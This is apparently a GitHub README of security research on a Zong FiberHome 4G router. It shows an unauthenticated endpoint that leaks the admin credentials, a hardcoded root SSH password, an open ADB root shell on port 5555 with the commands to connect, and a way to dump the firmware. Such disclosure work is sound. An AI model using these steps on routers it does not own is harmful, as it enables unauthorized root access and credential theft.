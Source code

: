 
# Zong FiberHome 4G Device

 ## Vulnerabilities and Exploits
 Although the device use a wierd authentication method, it is nothing more than a gimmick used 
 by the UI code to give an illusion of authentication.
 All the endpoints are accessible directly without authentication and the best part of it all is you can
 use the [`admin`](http://192.168.8.1/xml_action.cgi?method=get&module=duster&file=admin) endpoint to get the username and password for the router.

The output of the `admin` endpoint is something like
```
<?xml version="1.0" encoding="US-ASCII"?>
<RGW>
	<management>
		<router_username>admin</router_username>
		<router_password>admin</router_password>
		<web_wlan_enable/>
		<httpd_port/>
		<syslogd_enable/>
		<web_wan_enable/>
		<syslogd_rem_ip/>
		<turbo_mode/>
        <customer/>
	</management>
</RGW>
```

The vulerability explained above is [well know and quite old](https://github.com/OsamaMahmood/Zong-router-exploit) but wait, There's more! to my knowledge(not sure though) the `Fiber Home` version of the `Zong` devices are unlocked by default but if yours is not, you can use a simple trick to get super user access and unlock
the device direcltly from the `Admin Panel` all you have to do is login to your router and change the default **username** from `admin` to `root` and voila you can see a new tab named `Advance` in `Settings` which provides options to unlock the device, As shown below

![Advance Settings](/zong_adv_settings.PNG?raw=true "Advance Settings")

## Analysis
It gets more interesting once you do a portscan of the device. The portscan shows the following ports to be open
 - 22 - SSH
 - 53 - DNS
 - 80 - HTTP (Admin Panel)
 - 3020 - Unknown
 - 3021 - Unknown
 - 5555 - ADB

### Port 22
You can ssh into the device as `root` using password `oelinux123`

### Port 53 and 80
These ports are standard `DNS` and `HTTP` ports

#### Endpoints

Base URL: `/xml_action.cgi?method=get&module=duster&file=[name]`
known file names are:
 - admin
 - app_fun_support_list
 - battery_charge
 - custom_fw
 - detailed_log
 - dns
 - download_local_upgrade
 - lan
 - lock_cell_clear
 - message
 - message_drafts
 - message_outbox
 - message_set
 - message_state
 - message_state
 - net_advace_set
 - ntp_server
 - pin_puk
 - reset
 - restore_defaults
 - shutdown
 - status1
 - time_setting
 - traffic_excess_set
 - uapxb_wlan_basic_settings
 - uapxb_wlan_security_settings
 - upgrade_info
 - ussd_business
 - wan
 - wan_choose_net
 - wan_ip
 - wlan_auto_setting

### Port 3020
Port 3020 is interesting once you connect to it it immediatly send the banner `ms_version:1` and then appears to send/receive nothing but if you keep connected it starts sending packets with `JSON` payloads "periodically" which appears to be 4-byte length prefixed, see the sample payloads below

```
{
	"operate": "report",
	"service_name": "modem",
	"signal_strength": 2
}
```
```
{
	"operate": "report",
	"service_name": "modem",
	"signal_strength_v1": [
		{
			"cdma_dbm": 0,
			"evdo_dbm": -125,
			"gsm_signal_strength": 0,
			"lte_rsrp": -112,
			"operator_type": 2,
			"tds_signal_strength": 0,
			"wcdma_signal_strength": 0
		}
	]
}
```

### Port 3021
This port lets you connect to it and keeps the connection open as long as you don't send anything but as soon as you send something it immediately disconnects, possibly expects somekind of pattern IMO(these kinds of ports were found on other routers too)

### Port 5555
This port runs an unauthenticated `adb daemon` so you can easily connect to it using `adb` and get shell access as follow
```
adb connect 192.168.8.1:5555
adb shell
```
you will get access as root user so you can pretty much do anything you want.

### Dumping Image
You can list the flash partitions using:
```
cat /proc/mtd

Output:

dev:    size   erasesize  name
mtd0: 00140000 00020000 "sbl"
mtd1: 00140000 00020000 "mibib"
mtd2: 00b00000 00020000 "efs2"
mtd3: 00360000 00020000 "sdi"
mtd4: 00360000 00020000 "tz"
mtd5: 000c0000 00020000 "mba"
mtd6: 00360000 00020000 "rpm"
mtd7: 031e0000 00020000 "qdsp"
mtd8: 000e0000 00020000 "appsbl"
mtd9: 00800000 00020000 "apps"
mtd10: 00040000 00020000 "scrub"
mtd11: 04a80000 00020000 "cache"
mtd12: 00160000 00020000 "misc"
mtd13: 00560000 00020000 "cdrom"
mtd14: 002e0000 00020000 "logo"
mtd15: 00800000 00020000 "recovery"
mtd16: 00100000 00020000 "fota"
mtd17: 01080000 00020000 "recoveryfs"
mtd18: 01080000 00020000 "system"
mtd19: 12e80000 00020000 "userdata"
```
you can just `cat` the device and pipe the data to a file e.g. `ssh root@192.168.8.1 "cat /dev/mtd18" > system.img` to get the system image

### Filesystem
Its just a linux filesystem, fun stuff can be found in `/usr/mifi/`. Some of the configurations are also stored in `sqlite 3` databases and can be found in `/usr/data/`

### Credits
Thanks to [IMExperts](https://github.com/IMExperts) for providing the `ssh` password as well as mentioning that port `5555` is running `adb`

